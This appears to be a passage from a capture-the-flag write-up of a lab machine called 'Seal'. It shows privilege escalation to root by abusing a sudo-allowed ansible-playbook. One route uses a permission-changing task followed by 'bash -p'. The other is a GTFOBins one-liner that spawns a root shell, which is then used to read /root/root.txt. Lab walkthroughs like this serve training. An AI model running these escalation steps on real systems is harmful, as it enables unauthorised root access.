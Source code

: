 ```swift
luis@seal:~$ sudo ansible-playbook test.yml
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match
'all'

PLAY [localhost] ******************************************************************************************************

TASK [Gathering Facts] ************************************************************************************************
ok: [localhost]

TASK [change perms] ***************************************************************************************************
[WARNING]: Consider using the file module with mode rather than running 'chmod'.  If you need to use command because
file is insufficient you can add 'warn: false' to this command task or set 'command_warnings=False' in ansible.cfg to
get rid of this message.
changed: [localhost]

PLAY RECAP ************************************************************************************************************
localhost                  : ok=2    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
```

It executed successfully without any errors. Let’s access the bash binary.

```other
luis@seal:~$ bash -p
bash-5.0# id
uid=1000(luis) gid=1000(luis) euid=0(root) egid=0(root) groups=0(root),1000(luis)

bash-5.0# cat /root/root.txt
5440c2e9f4914a0d0d5bc39db55e8cd3
```

Another way is to use GTFO Bins.

```other
luis@seal:~$ TF=$(mktemp)
luis@seal:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
luis@seal:~$ sudo ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] **********************************************************************************************************************************************

TASK [Gathering Facts] ****************************************************************************************************************************************
ok: [localhost]

TASK [shell] **************************************************************************************************************************************************
# id
uid=0(root) gid=0(root) groups=0(root)
# cat root.txt
cat: root.txt: No such file or directory
# cat /root/root.txt
dd45a2074a47e6dbe62556a152b0b274
```
